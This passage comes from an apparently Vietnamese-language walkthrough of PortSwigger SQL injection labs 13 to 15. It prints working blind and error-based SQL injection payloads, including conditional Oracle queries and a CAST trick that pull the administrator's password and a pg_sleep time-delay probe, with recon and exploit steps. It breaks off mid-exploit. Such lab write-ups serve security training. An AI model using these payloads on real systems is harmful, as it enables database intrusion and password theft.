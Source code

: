   ```'OR (select case when substr(password,i,1) = '{c}'  then to_char(1/0) else 'a' end from users where username = 'administrator')='a' --```
- payload solve:

            'OR 1=CAST((SELECT password from users limit 1)AS INT )-- 

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/8c2d755f-4e01-46f8-8897-dfa2a66071b3)

=> solve lab 13

# Lab 14: Blind SQL injection with time delays

> This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

+ step 1: Recon
  
   -  trong này vì yêu cầu delay nên ta sẽ sử dụng sleep function
 
   -  lỗ hổng blind này vẫn khai thác ở trackid vì sau khi check có vẻ nó không hiện thông tin về lỗ hổng vì là blind nên ta sẽ check hành vi bằng cách sử dụng sleep
 
+ step 2 : Exploit

  payload:

        '||pg_sleep(10)--

  ![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/afca2623-5a9f-4989-90f0-7d5b906d21b3)


=> ta nhìn vào millis là 5,.. đã ngắt được 5s 

=> solve lab 14

# Lab 15: Blind SQL injection with time delays and information retrieval

>  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

> The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

> The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

> To solve the lab, log in as the administrator user. 

+ step 1: Recon

  - ta có payload check bài trên là ||pg_sleep --

![image](https://github.com/neo-M3tinez/Portswigger/assets/174318737/49ca2e6f-91ea-4f72-bee3-f51b01905650)

+ step 2 :Exploit
  ```